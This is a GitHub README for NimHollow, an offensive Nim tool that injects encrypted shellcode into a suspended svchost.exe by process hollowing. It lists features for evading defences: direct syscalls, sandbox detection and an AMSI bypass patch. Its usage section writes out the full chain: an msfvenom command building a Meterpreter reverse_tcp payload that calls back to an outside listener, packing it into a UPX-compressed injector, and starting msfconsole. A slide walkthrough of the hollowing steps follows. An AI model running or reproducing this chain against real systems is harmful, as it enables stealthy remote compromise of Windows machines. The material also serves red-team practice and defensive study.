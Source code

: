 NimHollow
==========

Playing around with the [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) technique using Nim.

Features:

* Direct syscalls for triggering Windows Native API functions with [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers).
* Shellcode encryption/decryption with [AES in CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)).
* Simple sandbox detection methods from the OSEP course by @offensive-security.
* AMSI patching with @rasta-mouse's [method](https://rastamouse.me/memory-patching-amsi-bypass/) is also inside (uncomment it for your needs).

## Usage

Installation:

```console
~$ git clone --recurse-submodules https://github.com/snovvcrash/NimHollow && cd NimHollow
~$ nimble install winim nimcrypto
~$ pip3 install -r requirements.txt
~$ sudo apt install upx -y
```

Example:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.13.37 LPORT=31337 EXITFUNC=thread -f raw -o shellcode.bin
~$ python3 NimHollow.py shellcode.bin -i 'C:\Windows\System32\svchost.exe' -o injector --upx --rm
~$ file injector.exe
injector.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
~$ sudo msfconsole -qr msf.rc
```

Help:

```
usage: NimHollow.py [-h] [-i IMAGE] [-o OUTPUT] [--debug] [--upx] [--rm] shellcode_bin

positional arguments:
  shellcode_bin         path to the raw shellcode file

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE, --image IMAGE
                        process image to hollow (default "C:\Windows\System32\svchost.exe")
  -o OUTPUT, --output OUTPUT
                        output filename
  --debug               do not strip debug messages from Nim binary
  --upx                 compress Nim binary with upx
  --rm                  remove Nim files after compiling the binary
```

## Process Hollowing in Slides

1\. Create the target process (e.g., `svchost.exe`) in a suspended state.

![](https://user-images.githubusercontent.com/23141800/132571935-07adfa73-f33d-4c37-b21c-7f8534699a8d.png)

2\. Query created process to extract its base address pointer from PEB (**P**rocess **E**nvironment **B**lock).

![](https://user-images.githubusercontent.com/23141800/132571944-de967c1f-1518-4d91-a4d6-4d63120017d7.png)

3\. Read 8 bytes of memory (for 64-bit architecture) pointed by the image base address *pointer* in order to get the actual value of the image base address.

![](https://user-images.githubusercontent.com/23141800/132571951-fb9b08b4-b6ab-4ae9-9387-e6f316fd4500.png)

4\. Read 200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address.

![](https://user-images.githubusercontent.com/23141800/132571964-588c830e-de06-4b09-a708-b32c4150a17c.png)

5\. Write the shellcode to the EntryPoint address and resume thread execution.

![](https://user-images.githubusercontent.com/23141800/132572990-cee11f80-59d4-4fd2-a7f7-245805554b35.png)

## Credits

* @ajpc500 for the [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) project.
* @byt3bl33d3r for the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/) repository.
* @S3cur3Th1sSh1t and @chvancooten for Nim [code](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim) [snippets](https://github.com/byt3bl33d3r/OffensiveNim/issues/16).

